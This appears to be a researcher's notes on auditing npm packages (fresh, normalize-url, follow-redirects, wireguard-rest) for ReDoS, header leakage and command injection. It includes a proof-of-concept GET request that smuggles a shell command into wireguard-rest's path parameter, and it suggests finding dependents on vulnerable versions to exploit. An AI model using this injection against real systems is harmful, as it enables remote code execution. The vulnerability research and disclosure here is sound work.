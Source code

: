 # Hunting on not so popular NPM packages

## Good Articles and starting point

- Resources to follow: https://hackerone.com/nodejs-ecosystem/hacktivity (now discontinued, but good place to learn)

1. [[pac-resolver] NPM package with 3 million weekly downloads had a severe vulnerability](https://httptoolkit.com/blog/npm-pac-proxy-agent-vulnerability/)
2. [[gity] RCE via insecure command formatting](https://hackerone.com/reports/730111) Sadly the package no longer exists.
3. [[wireguard-wrapper] Command Injection via insecure command concatenation](https://hackerone.com/reports/858674)
   - Task on this look for functions which are using exec `const {exec} = require('child_process');` something like this in the code, and not sanitizing the input.
4. [[follow-redirects] Improper Input Validation > 1.15.4](https://security.snyk.io/vuln/SNYK-JS-FOLLOWREDIRECTS-6141137)
   - Task, check which packages are using these vuln(s) and find ways to exploit them

## Testing gained knowledge in the wild (or atleast was my original idea)

Picking up a target on NPM. It needs to meet some basic criteria for a novice like me to find issues with it.

- it should be new and in JS/TS
- it should have at least 100 downloads and more
- it should be still in active development (or I know the dev)

We can use a resource like this Gist which keeps track of all [1000 most popular npm dependencies ](https://gist.github.com/anvaka/8e8fa57c7ee1350e3491). [Snyk Database to see past vulnerabilities.](https://snyk.io/advisor/npm-package/)

Lets start with the package named [fresh](https://www.npmjs.com/package/fresh)

## [Code Audit of Fresh](https://www.npmjs.com/package/fresh)

Putting on the song named [Can't See You](https://www.youtube.com/watch?v=0P3sHqiam5A&list=LL&index=166) because it sounded like the first word is "fresh".

Number of Downloads: ~26M downloads/week.

[Snyk VUlN description](https://security.snyk.io/package/npm/fresh/0.5.1) in 2017.

Also, this package has no dependents which makes it little more interesting. The improvement of token parsing is very nice. I think this was done in a direct response to the DOS vulnerability.

```
Regular Expression Denial of Service (ReDoS)
fresh is HTTP response freshness testing
Affected versions of this package are vulnerable to Regular expression Denial of Service (ReDoS) attacks. A Regular Expression (/ *, */) was used for parsing HTTP headers and take about 2 seconds matching time for 50k characters.
How to fix Regular Expression Denial of Service (ReDoS)?

Upgrade fresh to version 0.5.2 or higher.
```

So, for a 50K character the library would take 2 seconds, because it is inefficient. Which explains why the author[ in the commit changed it to the parseToken](https://github.com/jshttp/fresh/commit/21a0f0c2a5f447e0d40bc16be0c23fa98a7b46ec)

```git
- /**
- * Simple expression to split token list.
- * @private
- */
-
- var TOKEN_LIST_REGEXP = / *, */
- var matches = noneMatch.split(TOKEN_LIST_REGEXP)
+ var matches = parseTokenList(noneMatch)

# followed by the parseTokenList function
```

Package put plainly isn't doing much and the max it does is parse the date. If the date is of the type number it returns true or false. Unless there is a flaw with `Date.parse` the library is good.

Let's see if any popular packages are using `fresh` outdated version and we can exploit them. A query like this in GitHub search [`"fresh": "0.5.0" path:**/*/package.json`](https://github.com/search?q=%22fresh%22%3A+%220.5.0%22+path%3A**%2F*%2Fpackage.json&type=code) provides us with a bunch of results.

## [Code Audit of normalize-url](https://www.npmjs.com/package/normalize-url?activeTab=readme)

Weekly downloads: 26M downloads/week
[Source Code](https://github.com/sindresorhus/normalize-url#readme)
[Snyk-advisory](https://snyk.io/advisor/npm-package/normalize-url)

Version `>=6.0.0 <6.0.1` vulnerable to ReDos. Trying to see if I can do it as well.
[The PR which](https://github.com/sindresorhus/normalize-url/commit/b1fdb5120b6d27a88400d8800e67ff5a22bd2103) fixed the vulnerability.

```git
- const match = /^data:(?<type>._?),(?<data>._?)(?:#(?<hash>.\*))?$/.exec(urlString);
+ const match = /^data:(?<type>[^,]*?),(?<data>[^#]*?)(?:#(?<hash>.*))?$/.exec(urlString);
```

Good test case written by the dev to check for this vuln in the code. Check the PR mentioned.

## [Code Audit of follow-redirects](https://www.npmjs.com/package/follow-redirects?activeTab=readme)

Weekly downloads: 38M
[Source code](https://github.com/follow-redirects/follow-redirects)
[Snyk Advisory](https://security.snyk.io/package/npm/follow-redirects)

Given the number of issues that have been on information exposure and input validation, let's test the package on some real world example scenarios.

> You can mark any request header as sensitive, but the following are treated as sensitive by Edge Diagnostics by default:
>
> - Authorization
> - All headers containing API-Key
> - Proxy-Authorization
> - x-amz-security-token
>   [source](https://techdocs.akamai.com/edge-diagnostics/reference/sensitive-headers)

- [x] Maximum number of redirects [here is the code to check that](https://github.com/follow-redirects/follow-redirects/blob/35a517c5861d79dc8bff7db8626013d20b711b06/index.js#L410-L411). If fairly simple and logic seems airtight

- [x] Should it be however sending CSRF tokens? Raised it [here](https://github.com/follow-redirects/follow-redirects/security/advisories/GHSA-69q4-g9j8-rwp7). The code snippet below ensures that sensitive headers are filtered out.

```js
// https://github.com/follow-redirects/follow-redirects/blob/main/index.js#L464
removeMatchingHeaders(/^(?:authorization|cookie)$/i, this._options.headers)
```

## [Code Audit of wireguard-rest](https://www.npmjs.com/package/wireguard-rest)

Sadly, this package was never updated and has [[wireguard-wrapper] One with command Injection via insecure command concatenation](https://hackerone.com/reports/858674) vulnerability and hence is susceptible to the same problem.

[Loom video going over the POC](https://www.loom.com/share/a7048a719de54978b291f3c4bf7c047c). This would enable a direct remote code execution on the device running this package.

```bash
# get request payload
GET http://localhost:1234/wg/showconf/%3Btouch%20%7E%2FDesktop%2Ftype-script-learnings%2Fsecurity%2Fhacked.txt
```

Code to run the server (as provided in the docs)

```js
// run the server
const app = require("wireguard-rest")

app.listen(1234, function () {
  console.log(`Wireguard API listening on port 1234`)
})
```

How was this identified? Looked at the dependents of the original package, and then what version were using the vulnerable package (something which Snyk, and other packages automated)

Didn't see a lot of packages using wireguard-rest, reported to the author irrespective.
